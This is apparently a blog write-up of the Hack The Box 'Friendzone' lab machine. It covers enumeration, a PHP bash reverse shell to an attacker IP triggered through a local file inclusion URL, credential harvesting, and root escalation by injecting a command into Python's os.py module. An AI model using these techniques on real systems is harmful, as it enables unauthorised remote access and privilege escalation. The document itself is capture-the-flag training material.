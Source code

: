 ```yaml
---
layout: post
title:      "Hack The Box - Friendzone"
date:       2019-07-12
author:     "D4mianwayne"
tag:      nmap, ctf, HacktheBox, htb
category: Hack The Box
---
```


Today, we are going to pwn Friendzone from Hack The Box.

# Methodology

* Nmap scan of the machine 
* Checking SMB service and HTTP
* Using `dig` to get subdomians
* Uploading PHP reverse shell 
* Callback the reverse shell by exploiting LFI(Local File Inclusion)
* Getting user flag and SSH credentials
* Using cronjob to get root flag

# Nmap

Starting off with the nmap, `nmap -sV -sC -A 10.10.10.123` shows so many open ports but we have to start somewhere.
It includes:-

* 21 - FTP
* 22 - SSH
* 53 - DNS
* 80 - HTTP
* 139 & 445 - SMB
* 443 - SSL/HTTP

![](/img/friendzone/nmap.png)

# SMB and HTTP Enumeration

Using smbmap reveals we have access to `general` for read only and `Development` for read/write access.
So, we connect to `SMB` by using `smbclient //10.10.10.123/general/ -u root`  reveals we see `creds.txt` so we get it on our machine.

Now, `Developement` seems empty so I headover to HTTP port, it was basic html page without only one useful information **subdomain**. We noticed it has a subdomian named `friendzone.red`.
Running `gobuster` reveals nothing useful, so I moved on to DNS recon.


# DNS Enumeration and Login

Using `dig axrf friendzone.red @10.10.10.123` reveals a `administartor1.friendzone.red` so heading over to that shows a login page, loggin with the previous obtained credentials `admin:WORKWORKHhallelujah@#` , tell us to redirect to `dashboard.php`.

![](/img/friendzone/dig.png)

![](/img/friendzone/admin.png)

![](/img/friendzone/creds.png)

# Exploiting LFI vulnerability and callback Reverse Shell

This page seems told us to access url `default is image_id=a.jpg&pagename=timestamp`, seems LFI isn't it?

From previous SMB enumeration we knew that `Development` directory has read/write access so using php reverse shell wecan get access to friendzone machine.

Using folllowing code as `phpinfo.php`:-

```

<?php
exec(“/bin/bash -c ‘bash -i >& /dev/tcp/10.10.14.156/1234 0>&1’”);
phpinfo();
?>

```

we uploaded it to `Development ` directory by

`curl --upload-file phpinfo.php -u 'root' smb://10.10.10.123/Development/`, we uploaded our shell.

![](/img/friendzone/rev.png)

#### Callback

From previously found LFI, we access the our phpinfo file by 
`https://administrator1.friendzone.red/dashboard.php?image_id=b.jpg&pagename=/etc/Development/phpinfo`

![](/img/friendzone/lfi.png)

Not `a.jpg` because it was default so no need to, so back to our listener we get a shell.

![](/img/friendzone/revs.png)

#### User Flag

Once your listener get connected to our uploaded reverse shell you can get user flag.

![](/img/friendzone/user.png)


# Getting SSH Credentials

Checking directory and file reveals a interseting file named `mysql_data.conf` has following credentials:-

***

>for development process this is the mysql creds for user friend

>db_user=friend

db_pass=Agpyu12!0.213$

>db_name=FZ

***

![](/img/friendzone/sshcreds.png)

# SSH Login and root flag

Well, we login to ssh using previous credentials.

![](/img/friendzone/ssh.png)


### Analyzing Running Processes

There was a ELF file named `pspy64`, executing it shows running jobs in which we can very interesting process whuch was a python file.

![](/img/friendzone/cronjob.png)

Head over `/opt/server_admin/reporter.py` shows a nothing more than bunch of commented out line of python code.

```

#!/usr/bin/python

import os

to_address = “admin1@friendzone.com”
from_address = “
admin2@friendzone.com”

print “[+] Trying to send email to %s”%to_address

#command = ‘’’ mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass “PAPAP”’’’

#os.system(command)

# I need to edit the script later
# Sam ~ python developer

```

We can see a line importing python os module, since we don't have modify permissions for reporter.py we head over `/usr/bin/python2.7`  we can edit os.py i.e python's `os` module which has a function which allows us to execute any command by passing them as parameter. 

For example:-

```

import os
os.sytem('whoami') #friend

```

So we add a single line of code at the very end of `os.py` 

```

system('cp /root/root.txt /tmp/root1.txt') # calling system functon and copying flag

```

Hence, waiting for few minutes gives `root1.txt`.

![](/img/friendzone/root.jpg)

**Done!!**

<img src="https://www.hackthebox.eu/badge/image/129534" alt="Hack The Box">

